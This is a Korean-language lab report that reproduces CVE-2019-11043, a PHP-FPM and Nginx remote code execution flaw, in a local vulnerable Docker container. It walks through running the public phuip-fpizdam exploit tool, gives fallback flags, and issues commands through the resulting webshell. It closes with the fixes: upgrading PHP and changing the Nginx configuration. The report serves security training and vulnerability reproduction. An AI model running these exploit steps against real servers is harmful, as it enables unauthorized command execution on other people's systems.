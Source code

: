 # CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서
> 화이트햇 스쿨 3기 26반- [윤성준 (@ysj-main)](https://github.com/ysj-main)

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```
![](./img/1.png)

- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.
![](./img/2.png)

### 3.3 기본 동작 확인
터미널로 동작 확인
```bash
curl http://localhost[yourIP]:8080/index.php
# → hello world
```

브라우저로 동작 확인
```
http://localhost[yourIP]:8080/index.php
```
![](./img/3.png)

### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost[yourIP]:8080/index.php"
![](./img/4.png)
```
![](./img/4.png)
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost[yourIP]:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```

### 3.5 WebShell 테스트  
터미널로 WebShell 테스트
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
브라우저로 WebShell 테스트
```
http://localhost:8080/index.php?a=id
```
![](./img/5.png)

## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거

## 5. PULL REQUEST 링크
https://github.com/gunh0/kr-vulhub/pull/284
